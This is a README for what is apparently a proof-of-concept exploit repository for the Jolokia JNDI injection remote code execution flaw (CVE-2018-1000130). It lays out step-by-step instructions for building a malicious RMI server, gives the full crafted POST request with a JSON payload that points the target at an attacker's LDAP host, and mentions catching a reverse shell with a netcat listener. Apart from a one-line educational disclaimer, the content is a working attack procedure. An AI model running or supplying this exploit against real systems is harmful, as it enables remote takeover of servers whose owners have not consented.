

# Jolokia 1.0.0 JNDI Injection leading to RCE (CVE-2018-1000130)

Working POC code for Jolokia RCE




## Steps to Reproduce:

1. Clone the current Repository.
2. Edit the java file `src/main/java/ExportObject.java` and enter the command that you wish to execute remotely.
3. Execute `mvn clean install` to build the jar file.
4. Execute `java -jar RMIServer-0.1.0.jar http://<server_ip>:port_1/#ExportObject port_2
` to create a malicious server. 
5. Send the following request to your target server.

```
POST /jolokia/ HTTP/1.1 
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55 
Connection: close 
Content-Type: application/x-www-form-urlencoded 
 
{
    "type" : "read",
    "mbean" : "java.lang:type=Memory",
    "target" : { 
        "url" : "service:jmx:rmi:///jndi/ldap://<server_ip>:port_2/jmxrmi"
    } 
}
```

This will execute the command that you have specified in the `ExportObject.java` file

Note that if you are trying to create a Remote shell, then you will have to open a Netcat Listner on your server at `port_3` specified in `ExportObject.java` file

**Note**: All the information provided in this REPO are for educational purposes only. The authors of the repository are no way responsible for any misuse of the information.

Reference:
https://blog.gdssecurity.com/labs/2018/4/18/jolokia-vulnerabilities-rce-xss.html

